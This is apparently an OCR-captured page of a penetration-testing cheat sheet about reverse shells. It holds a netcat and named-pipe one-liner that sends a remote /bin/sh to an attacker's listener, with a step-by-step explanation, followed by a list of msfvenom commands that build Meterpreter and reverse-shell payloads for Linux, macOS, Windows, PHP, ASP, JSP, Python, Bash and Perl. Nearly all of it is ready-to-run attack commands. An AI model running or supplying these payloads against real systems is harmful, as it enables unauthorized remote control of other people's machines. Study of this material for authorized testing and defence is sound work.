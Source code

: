 ```bash
mkfifo /tmp/qdsrgu; \
nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | \
	/bin/sh >/tmp/qdsrgu 2>&1; \
rm /tmp/qdsrgu
```

What’s going on here?

* `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
* We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat’s STDIN (`0< /tmp/qdsrgu`), pipe the *output* of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect *both* STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
* On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh *there*. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

Use `--list formats` to see available encoding formats.

```bash
# 32-bit Linux ELF Meterpreter payload
#
msfvenom -p linux/x86/meterpreter/reverse_tcp \
LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f elf > rev_shell

# 32-bit macOS MACH-O Meterpreter payload
#
msfvenom -p osx/x86/shell_reverse_tcp \
LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f macho > rev_shell

# 32-bit (?) Windows executable Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f exe > rev_shell.exe

# PHP Meterpreter payload
#
msfvenom -p php/meterpreter_reverse_tcp \
LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw > rev_shell.php

# ASP Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f asp > rev_shell.asp

# JSP Meterpreter payload
#
msfvenom -p java/jsp_shell_reverse_tcp \
LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw > rev_shell.jsp

# Python Meterpreter payload
#
msfvenom -p cmd/unix/reverse_python \
LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw > rev_shell.py

# Bash Meterpreter payload
#
msfvenom -p cmd/unix/reverse_bash \
LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw > rev_shell.sh

# Perl Meterpreter payload
#
msfvenom -p cmd/unix/reverse_perl \
LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f raw > rev_shell.pl
```